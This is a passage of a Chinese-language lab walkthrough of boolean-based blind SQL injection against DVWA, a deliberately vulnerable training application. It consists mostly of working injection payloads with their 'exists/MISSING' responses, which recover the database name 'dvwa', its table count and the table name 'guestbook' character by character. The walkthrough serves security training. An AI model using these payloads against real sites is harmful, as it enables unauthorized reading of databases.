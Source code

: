 ```
1' and ascii(substr(database(),4,1))>100;# MISSING
1' and ascii(substr(database(),4,1))>50;# exists
1' and ascii(substr(database(),4,1))>80;# exists
1' and ascii(substr(database(),4,1))>90;# exists
1' and ascii(substr(database(),4,1))>95;# exists
1' and ascii(substr(database(),4,1))>99;# MISSING
1' and ascii(substr(database(),4,1))>98;# MISSING
1' and ascii(substr(database(),4,1))>97;# MISSING
1' and ascii(substr(database(),4,1))>96;# exists
1' and ascii(substr(database(),4,1))=97;# exists
```

ascii码等于97，得出第三个字母为a

获取到当前数据库名称为dvwa

​ c.猜测表的个数，如下得到dvwa中有两个表。

```
1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')>1;# exists 
1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')>2;# MISSING 
1' and (select count(table_name) from information_schema.tables where table_schema='dvwa')=2;# exists
```

​ d. 猜解表的长度，并猜解表名

```
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>10;# MISSING 
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>5;# exists 
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))>8;# exists 
1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1))=9;# exists
第一个表名长度为9，继续猜表名
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 105;# MISSING
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 100;# exists
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 103;# MISSING
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) =103;# exists
得到第一个表名的第一个字母为g，继续使用二分法猜解
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),2,1)) =117;# exists  对应字母u
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),3,1)) =101;# exists  对应字母e
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),4,1)) =115;# exists  对应字母s
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),5,1)) =116;# exists   对应字母t
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),6,1)) =98;# exists    对应字母b
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),7,1)) =111;# exists    对应字母o
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),8,1)) =111;# exists    对应字母o
1' and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),9,1)) =107;# exists    对应字母k

得出数据库dvwa中第一个表为guestbook
```